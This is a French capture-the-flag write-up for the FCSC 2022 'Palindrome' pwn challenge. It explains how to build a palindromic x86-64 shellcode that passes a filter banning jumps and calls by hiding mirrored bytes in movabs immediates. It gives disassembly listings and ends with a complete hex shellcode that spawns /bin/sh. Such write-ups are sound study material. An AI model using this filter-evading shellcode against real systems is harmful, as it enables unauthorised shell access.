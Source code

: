 ```yaml
---
title: Pwn - Palindrome
parent: FCSC 2022
grand_parent: CTF writeups
---
```


Palindrome
===

Un serveur nous autorise à exécuter n'importe quel shellcode à la
condition suivante (vérifiée par un script Python avec la lib Capstone):

* Il sera préfixé par un prologue qui met les registres à zéro
  et par un épilogue `syscall` et mis sur une pile exécutable
* Il ne doit contenir aucun `jmp` ou `call` ou `ret` ou assimilé
* Il doit être un palindrome (identique si on renverse la liste d'octets)

Objectif
---

Il suffit de pouvoir appeler le syscall execve avec la chaîne
`"/bin/sh"`. On pourra ensuite lire le flag tranquillement.

En temps normal on aurait donc besoin de:
```
0x00000000   8         488dbc2400010000  lea rdi, [rsp + 0x100]
0x00000008   7           48c7072f62696e  mov qword [rdi], 0x6e69622f   "/bin"
0x0000000f   8         48c747042f736800  mov qword [rdi + 4], 0x68732f "/sh"
0x00000017   5               b83b000000  mov eax, 0x3b
```
qui n'est pas du tout un palindrome.

Pour construire un palindrome, le plus simple est d'envoyer:
`miroir(shellcode) + shellcode` mais le miroir doit être un shellcode
valide.

Il est difficile de faire en sorte que des octets quelconques fassent
des instructions valides, mais l'instruction `movabs` suivie de 8 octets
permettrait de "cacher" des données.

Par example, essayons de faire apparaître un `movabs rax, $imm64`
dans le miroir. Cela correspond aux octets `48 b8`.

* Pour faire apparaître `b8` un `mov bl, 0xb8` suffit.
* Pour faire apparaître `48` on peut utiliser un nop `48 90`

```
0x00000000   8         488dbc2400010000  lea rdi, [rsp + 0x100]
0x00000008   7           48c7072f62696e  mov qword [rdi], 0x6e69622f
0x0000000f   8         48c747042f736800  mov qword [rdi + 4], 0x68732f
0x00000017   5               b83b000000  mov eax, 0x3b
0x0000001c   2                     b3b8  mov bl, 0xb8
0x0000001e   2                     4890  nop
```
dont le miroir est:
```
<CsInsn 0x0 [90]: nop >
<CsInsn 0x1 [48b8b30000003bb80068]: movabs rax, 0x6800b83b000000b3>
<CsInsn 0xb [732f]: jae 0x3c>
<CsInsn 0xd [0447]: add al, 0x47>
<invalid>
```

On ajoute alors encore des petites séquences `b3 b8 48 90 90...`
qui à l'endroit font `mov bl, 0xb8; nop; nop..`
et à l'envers font `nop; nop; movabs ...`

La version finale est:
```
0x00000000   8         488dbc2400010000  lea rdi, [rsp + 0x100]
0x00000008   2                     b3b8  mov bl, 0xb8
0x0000000a   2                     4890  nop
0x0000000c   7           48c7072f62696e  mov qword [rdi], 0x6e69622f
0x00000013   2                     b3b8  mov bl, 0xb8
0x00000015   8         48c747042f736800  mov qword [rdi + 4], 0x68732f
0x0000001d   2                     b3b8  mov bl, 0xb8
0x0000001f   2                     4890  nop
0x00000021   1                       90  nop
0x00000022   5               b83b000000  mov eax, 0x3b
0x00000027   2                     b3b8  mov bl, 0xb8
0x00000029   2                     4890  nop
```

avec son miroir (total 86 octets):
```
0x00000000   1                       90  nop
0x00000001  10     48b8b30000003bb89090  movabs rax, 0x9090b83b000000b3
0x0000000b  10     48b8b30068732f0447c7  movabs rax, 0xc747042f736800b3
0x00000015  10     48b8b36e69622f07c748  movabs rax, 0x48c7072f62696eb3
0x0000001f   1                       90  nop
0x00000020  10     48b8b30000010024bc8d  movabs rax, 0x8dbc2400010000b3
0x0000002a   9       48488dbc2400010000  lea rdi, [rsp + 0x100]
0x00000033   2                     b3b8  mov bl, 0xb8
0x00000035   2                     4890  nop
0x00000037   7           48c7072f62696e  mov qword [rdi], 0x6e69622f
0x0000003e   2                     b3b8  mov bl, 0xb8
0x00000040   8         48c747042f736800  mov qword [rdi + 4], 0x68732f
0x00000048   2                     b3b8  mov bl, 0xb8
0x0000004a   2                     4890  nop
0x0000004c   1                       90  nop
0x0000004d   5               b83b000000  mov eax, 0x3b
0x00000052   2                     b3b8  mov bl, 0xb8
0x00000054   2                     4890  nop
```

En hexadécimal:
```
9048b8b30000003bb8909048b8b30068732f0447c748b8b36e69622f07c7489048b8b30000010024bc8d48
488dbc2400010000b3b8489048c7072f62696eb3b848c747042f736800b3b8489090b83b000000b3b84890
```
